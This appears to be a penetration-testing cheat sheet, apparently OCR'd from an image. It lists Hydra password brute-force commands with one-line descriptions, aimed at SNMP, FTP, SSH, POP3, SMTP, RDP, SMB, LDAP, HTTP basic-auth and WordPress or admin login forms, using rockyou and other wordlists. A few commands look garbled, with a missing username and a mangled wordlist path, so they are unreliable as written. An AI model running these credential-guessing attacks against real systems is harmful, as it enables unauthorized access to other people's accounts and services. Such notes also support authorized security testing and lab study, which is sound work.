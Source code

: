 hydra -P password-file.txt -v $ip snmp 	Hydra brute force against SNMP

hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp 	Hydra FTP known user and rockyou password list

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh 	Hydra SSH using list of users and passwords

hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh 	Hydra SSH using a known password and a username list

hydra $ip -s 22 ssh -l -P big_wordlist.txt 	Hydra SSH Against Known username on port 22

hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V 	Hydra POP3 Brute Force

hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V 	Hydra SMTP Brute Force

hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin 	Hydra attack http get 401 login with a dictionary

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip 	Hydra attack Windows Remote Desktop with rockyou

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb 	Hydra brute force SMB user with rockyou:

hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 	Hydra brute force a Wordpress admin login

hydra -L usernames.txt -P passwords.txt $ip smb -V -f 	SMB Brute Forcing

hydra -L users.txt -P passwords.txt $ip ldap2 -V -f 	LDAP Brute Forcing


## Common:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.196.110 -V http-form-post '/admin:user=^USER^&pass=^PASS^:F=Username or password invalid'